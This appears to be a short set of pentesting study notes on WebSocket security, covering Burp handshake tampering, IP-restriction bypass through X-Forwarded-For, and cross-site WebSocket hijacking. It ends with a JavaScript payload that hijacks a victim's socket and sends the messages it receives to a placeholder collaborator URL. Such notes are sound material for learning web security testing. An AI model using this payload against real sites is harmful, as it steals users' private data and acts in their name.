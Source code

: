 ```yaml
---
layout: blank
pagetitle: Websockets
---
```


**Common vulnerabilities**
- Since websockets are just another way of communicating with a webserver, most standard vulnerabilities still apply
- Burp's websocket history and repeater can handle websocket communication

**Manipulating Websocket Handshake**
- Process of manipulating the handshake:
  - Send Websocket message to repeater
  - Click pencil next to URL
  - Choose `clone` for a connected websocket or `reconnect` for a disconnected websocket
    - This will show the details of the handshake request, which can be modified
  - Click `connect` to test out the configured handshake
- Common handshake vulnerabilities:
  - Misplaced trust in HTTP headers for security decisions, like `X-Forwarded-For` or any custom headers
    - `X-Forwarded-For` can sometimes bypass IP restrictions
  - Common session-handling mechanism flaws in the handshake

**Cross-site WebSocket Hijacking**
- Results from cross-domain WebSocket connections from an attacker-controlled site
- Happens when the Websocket handshake relies only on HTTP cookies and doesn't have any CSRF tokens
  - Attacker can set up a malicious site to establish the cross-site websocket connection to read contents of messages
- Payload:

```
<script>
    var ws = new WebSocket('wss://{websocket_rl}');
    ws.onopen = function() {
        ws.send("{command_to_send_as_user}");
    };
    ws.onmessage = function(event) {
        fetch('{collaborator_url}', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```